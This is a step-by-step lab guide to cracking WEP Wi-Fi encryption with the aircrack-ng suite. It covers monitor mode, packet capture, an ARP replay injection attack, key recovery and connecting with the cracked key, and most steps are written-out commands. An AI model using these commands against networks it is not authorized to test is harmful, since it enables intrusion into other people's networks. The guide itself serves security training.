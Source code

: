 
# Step-by-Step Guide: WEP Attack
---

## **1. Set Up the Lab Environment**
- **Access Point (AP):** Configure a wireless network using WEP encryption.
- **Wi-Fi Adapter:** Use a network adapter that supports monitor mode and packet injection.
- **Kali Linux:** Ensure the system has Kali Linux installed with the required tools.
- **Client Devices:** Connect one or more devices to the WEP network to simulate normal network traffic.

---

## **2. Enable Monitor Mode**
1. Identify the wireless interface:
   ```bash
   iwconfig
   ```
2. Enable monitor mode on the adapter:
   ```bash
   airmon-ng start wlan0
   ```
   Replace `wlan0` with the name of your wireless interface. This will create a virtual interface (e.g., `wlan0mon`).

---

## **3. Scan for Networks**
1. Scan for nearby wireless networks:
   ```bash
   airodump-ng wlan0mon
   ```
2. Note the following details about the target WEP network:
   - **BSSID** (MAC address of the AP)
   - **Channel** (the network’s operating channel)
   - **ESSID** (network name)

---

## **4. Capture Packets**
1. Start capturing packets from the target network:
   ```bash
   airodump-ng --bssid <BSSID> --channel <channel> -w capturefile wlan0mon
   ```
2. Replace:
   - `<BSSID>`: The target AP’s MAC address.
   - `<channel>`: The channel the network is operating on.
3. Packets will be saved to a file (e.g., `capturefile-01.cap`).

---

## **5. Stimulate Network Traffic (Optional)**
1. Use an ARP replay attack to generate additional packets:
   ```bash
   aireplay-ng -3 -b <BSSID> wlan0mon
   ```
2. This sends ARP packets to the AP, forcing it to generate more encrypted packets and increasing the number of Initialization Vectors (IVs).

---

## **6. Monitor IV Count**
1. In the `airodump-ng` window, check the `#Data` field.
2. Minimum IVs required:
   - **20,000 IVs** for a 64-bit WEP key.
   - **40,000 IVs** for a 128-bit WEP key.

---

## **7. Crack the WEP Key**
1. Use `aircrack-ng` to crack the WEP key:
   ```bash
   aircrack-ng -b <BSSID> capturefile-01.cap
   ```
2. Replace `<BSSID>` with the target AP’s MAC address.
3. If successful, the tool will display the WEP key, e.g., `Key Found: [ 12:34:56:78:90 ]`.

---

## **8. Verify the Key**
1. Use the cracked key to connect to the WEP network from a client device.
2. Ensure successful authentication to confirm the key's validity.
